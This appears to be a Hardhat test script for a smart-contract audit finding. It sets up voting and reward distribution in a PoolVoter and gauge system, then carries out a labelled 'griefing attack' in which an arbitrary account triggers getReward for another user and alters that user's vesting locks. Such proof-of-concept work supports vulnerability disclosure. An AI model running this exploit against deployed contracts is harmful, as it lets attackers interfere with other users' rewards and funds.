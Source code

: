 ```typescript

    console.log("Notify the reward amount to the poolVoter contract");
    
    expect(await poolVoter.totalWeight()).eq(0); 
    console.log("totalWeight: ", await poolVoter.totalWeight()); 
    await poolVoter.connect(ant).vote([reserve.target], [1e8]);
    expect(await poolVoter.totalWeight()).greaterThan(e18 * 19n);
    console.log("after vote totalWeight: ", await poolVoter.totalWeight()); 
    console.log("length of pools:", await poolVoter.length());
    console.log("zero balance of PoolVoter: ", await zero.balanceOf(poolVoter.target)); // Should be 0
    console.log("Step: the Deployer (the owner of Zero token) approve the PoolVoter to spend 100 ZERO token");
    await zero.connect(deployer).approve(poolVoter.target, e18 * 100n);
    await poolVoter.connect(deployer).notifyRewardAmount(e18 * 100n);

    console.log("After notifyRewardAmout zero balance of PoolVoter: ", await zero.balanceOf(poolVoter.target));

    splitterGauge = await hre.ethers.getContractAt("LendingPoolGauge", await poolVoter.gauges(reserve.target));
    console.log("The claimable reward of gauge: ", await poolVoter.claimable(splitterGauge.target));
    console.log("Call the updateFor gauge to update the claimable reward for the gauge");
    await poolVoter.connect(ant).updateFor(splitterGauge.target);

    console.log("Distribution of the reward to the gauge");
   
    console.log("Before distribute zero balance of aTokenGauge: ", await zero.balanceOf(aTokenGauge.target));
    console.log("Before distribute zero balance of varTokenGauge: ", await zero.balanceOf(varTokenGauge.target));
    await poolVoter.connect(ant)["distribute(address)"](splitterGauge.target);
    console.log("After distribute zero balance of aTokenGauge: ", await zero.balanceOf(aTokenGauge.target));
    console.log("After distribute zero balance of varTokenGauge: ", await zero.balanceOf(varTokenGauge.target));

    console.log("The reward of the user1: ", await aTokenGauge.earned(zero.target, user1.address));
    
    console.log("Address of user1 ", user1.address);

    let lastTokenId = await vest.lastTokenId();
    console.log("LastTokenId: ", lastTokenId);
    console.log("The address of the owner of the lastTokenId: ", await vest.ownerOf(lastTokenId));
    
    

    console.log("Execute the griefing attack");
    const [attacker] = await hre.ethers.getSigners();
    
    console.log("Call getReward to get the reward of the user1");
    await aTokenGauge.connect(attacker).getReward(user1.address, zero);

    
    lastTokenId = await vest.lastTokenId();
    console.log("LastTokenId: ", lastTokenId);
    console.log("The address of the owner of the lastTokenId: ", await vest.ownerOf(lastTokenId));
    
    console.log("Get tokenIdToLockDetails of the lastTokenId");
    let tokenIdToLockDetails = await vest.tokenIdToLockDetails(lastTokenId);

    console.log("tokenIdToLockDetails: ", tokenIdToLockDetails);
```
